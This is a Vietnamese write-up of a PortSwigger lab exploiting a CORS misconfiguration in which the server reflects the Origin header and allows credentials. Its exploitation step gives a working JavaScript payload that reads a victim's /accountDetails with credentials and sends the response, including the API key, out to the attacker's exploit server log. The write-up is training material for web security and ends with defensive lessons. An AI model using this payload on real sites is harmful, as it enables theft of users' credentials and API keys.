

# Write-ups: CORS vulnerability with basic origin reflection

### Tổng quan
Khai thác lỗ hổng Cross-Origin Resource Sharing (CORS) trong ứng dụng, nơi cấu hình CORS phản hồi `Access-Control-Allow-Origin` dựa trên header `Origin` được gửi trong yêu cầu, mà không kiểm tra tính hợp lệ của origin. Với `Access-Control-Allow-Credentials: true`, kẻ tấn công có thể sử dụng một origin bất kỳ (như `https://example.com`) để truy cập tài nguyên nhạy cảm qua `XMLHttpRequest`. Sử dụng payload JavaScript trong Exploit Server để lấy thông tin tài khoản administrator (bao gồm `apikey`) từ endpoint `/accountDetails` và gửi đến máy chủ của kẻ tấn công, hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng CORS bằng cách sử dụng origin tùy ý để lấy thông tin tài khoản administrator (`apikey`) từ endpoint `/accountDetails` thông qua `XMLHttpRequest`, gửi dữ liệu đến máy chủ của kẻ tấn công và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập bằng tài khoản `wiener`:`peter` và gửi yêu cầu GET đến `/accountDetails`
- **Phản hồi**:
    ```json
    {
    "username": "wiener",
    "email": "1111@gmail.com",
    "apikey": "fFxDRYObSQNZFamra5Cw7nSUeLgqD9AR",
    "sessions": [
        "af69srEWqHoS79iEeM3DVT1oZT3EW9hD"
    ]
    }
    ```
    - Header: `Access-Control-Allow-Credentials: true`, cho thấy ứng dụng cho phép gửi cookie phiên trong các yêu cầu cross-origin.
    - Không có `Access-Control-Allow-Origin` trong phản hồi mặc định:
        

2. **Kiểm tra cấu hình CORS**
- Gửi yêu cầu GET `/accountDetails` đến Burp Repeater, thêm header `Origin: https://example.com`:
- **Phản hồi**:
    - Header: `Access-Control-Allow-Origin: https://example.com`
    - Xác nhận lỗ hổng CORS: ứng dụng phản hồi `Access-Control-Allow-Origin` dựa trên giá trị Origin trong yêu cầu, không kiểm tra tính hợp lệ, kết hợp với `Access-Control-Allow-Credentials: true`:
        

3. **Khai thác (Exploitation)**
- Tạo payload trong Exploit Server để lấy thông tin tài khoản qua `XMLHttpRequest`:
    ```javascript
    <script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0abf00c9034c3a97b461bec0002600a9.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='/log?key='+this.responseText;
    };
    </script>
    ```
    
- **Ý tưởng payload**:
    - Sử dụng `XMLHttpRequest` để gửi yêu cầu GET đến `/accountDetails` với `withCredentials=true`, lấy thông tin tài khoản (bao gồm `apikey`) của người dùng hiện tại (`administrator`).
    - Hàm `reqListener` gửi phản hồi (`responseText`) đến endpoint `/log` trên Exploit Server.
    - Yêu cầu được gửi từ một origin bất kỳ, và ứng dụng chấp nhận vì `Access-Control-Allow-Origin` phản hồi origin của yêu cầu.

- Store và view exploit để kiểm tra:
    - Script gửi yêu cầu GET đến `/accountDetails`, nhưng phản hồi trong access log là `/log?key="Resource not found - Academy Exploit Server"`, cho thấy endpoint /log chưa được cấu hình đúng:
        

- Gửi payload đến nạn nhân qua "Deliver exploit to victim" của Exploit Server:
    - **Kết quả**: Phản hồi được gửi đến `/log?key=...`, chứa `apikey`: `yNS4n5jksPawwl77DrbsXmeW4QXaOdtl`:
        

- Submit `apikey` (`yNS4n5jksPawwl77DrbsXmeW4QXaOdtl`) trong giao diện lab để hoàn thành:
    

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng CORS bằng cách sử dụng origin tùy ý để lấy thông tin nhạy cảm từ endpoint `/accountDetails` thông qua `XMLHttpRequest` với `withCredentials=true`, tận dụng cấu hình CORS phản hồi `Access-Control-Allow-Origin` dựa trên header `Origin`.
- Nhận thức tầm quan trọng của việc kiểm tra nghiêm ngặt danh sách `origin` được phép trong cấu hình CORS, tránh phản hồi `Access-Control-Allow-Origin` dựa trên header `Origin` từ yêu cầu, và hạn chế sử dụng `Access-Control-Allow-Credentials: true` để ngăn chặn các cuộc tấn công CORS.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác lỗ hổng CORS với cấu hình yếu phản hồi origin tùy ý, nhấn mạnh tầm quan trọng của việc kiểm tra chặt chẽ danh sách origin được phép và hạn chế sử dụng `Access-Control-Allow-Credentials` để bảo vệ ứng dụng. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 8/2025.*